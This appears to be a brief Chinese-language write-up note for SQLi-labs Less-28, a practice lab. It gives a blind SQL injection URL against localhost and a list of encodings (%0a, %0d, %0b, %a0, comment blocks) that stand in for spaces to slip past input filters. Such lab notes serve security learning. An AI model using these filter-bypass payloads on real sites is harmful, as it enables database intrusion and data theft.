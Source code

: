 思路一 : 
```
盲注 : (%0d %0a 都可以达到空格的效果)
http://127.0.0.1/Less-28/?id=0%27/*%0a*/or()or/*%0a*/%27%27=%271
```

> 后记 : 
构造空格 : 
* %0a
* %0d
* %20
* %0b
* %a0
* /*%0a*/
